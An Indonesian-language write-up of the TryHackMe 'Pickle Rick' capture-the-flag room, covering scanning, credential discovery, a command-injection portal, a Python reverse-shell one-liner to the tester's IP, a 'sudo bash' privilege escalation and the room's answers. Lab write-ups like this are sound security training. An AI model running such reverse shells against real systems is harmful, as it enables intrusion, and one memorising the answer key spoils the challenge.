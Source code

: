 # CTF - Pickle Rick
- TryHackMe Challenge: https://tryhackme.com/room/picklerick
- IP Machine: 10.10.172.106

# Nmap Report
- Baris perintah: `nmap -sV -A <IP Machine>`
```sh
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -A 10.10.172.106
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-29 19:44 EDT
Nmap scan report for 10.10.172.106
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f6bbf9e8176b483c616e7fe7b3dc6ad2 (RSA)
|   256 9d8527a53623d37ba397cb9f308841ae (ECDSA)
|_  256 cc423adf1180534d8445e1357c2cac92 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=7/29%OT=22%CT=1%CU=36558%PV=Y%DS=2%DC=T%G=Y%TM=64C5A47
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10E%TI=Z%II=I%TS=8)SEQ(SP=1
OS:04%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O
OS:3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   193.06 ms 10.8.0.1
2   195.02 ms 10.10.172.106

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.35 seconds
```

## Gobuster
- Baris perintah: `gobuster dir -u http://<IP Machine> -w <wordlists>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%201.JPG)

## Content Discovery
- Buka halaman web `http://<IP_machine>` di browser

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%202.JPG)

- Tekan **Ctrl+U** atau klik kanan pada halaman lalu pilih **View Page Source** untuk menampilkan source code halaman. Disini ditemukan informasi bahwa usernamenya adalah **R1ckRul3s**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%203.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%204.JPG)

- Buka halaman `http://<IP_machine>/robots.txt` di tab baru. Disini ditemukan sebuah password

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%205.JPG)

```sh
username: R1ckRul3s
password: Wubbalubbadubdub
```

## Gain Access
- Lakukan login ke halaman `http://<IP_machine>/login.php` dengan username dan password yang ditemukan diatas

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%206.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%207.JPG)

- Jika kita ketik `ls` lalu tekan Execute maka diperoleh daftar file sebagai berikut

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%208.JPG)

- Jika kita ketik `cat Sup3rS3cretPick13Ingred.txt` lalu tekan Execute maka muncul pesan bahwa perintah tersebut telah di block

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%209.JPG) 

- Gunakan Payload berikut untuk masuk ke server. Ganti **10.8.142.62** dengan IP tun0 pada komputer yang anda gunakan
```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.142.62",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
```

- Buka terminal dan jalankan netcat dengan printah `nc -lnvp <port>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2010.JPG)

- Copy payload dan paste ke halaman `http://<IP_machine>/portal.php` lalu tekan Execute

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2011.JPG)

- Netcat berhasil terkoneksi dan masuk sebagai user **www-data**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2012.JPG)

- Disini kita bisa membaca file **Sup3rS3cretPick13Ingred.txt** dengan perintah `cat Sup3rS3cretPick13Ingred.txt` yang sebelumnya diblock

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2013.JPG)

- Di directory **/home** ditemukan home directory **rick**. Navigasi ke directory **/home/rick** dan disana ditemukan file **second ingredients**. Buka file tersebut dengan perintah `cat 'second ingredients'`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2014.JPG)

## Privilege Escalation
- Untuk menemukan final ingredient diperlukan akses user root. Jalankan 2 baris perintah ini untuk memperoleh akses user root

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
sudo bash
```

- Setelah berhasil masuk ke user root, navigasi ke directory **/root** maka disini ditemukan file **3rd.txt** yang berisi final ingredient. Buka file tersebut dengan perintah `cat 3rd.txt`

## Pertanyaan dan Jawaban:

- **Pertanyaan:** What is the first ingredient that Rick needs?
```sh
mr. meeseek hair
```

- **Pertanyaan:** What is the second ingredient in Rick’s potion?
```sh
1 jerry tear
```

- **Pertanyaan:** What is the last and final ingredient?
```sh
fleeb juice
```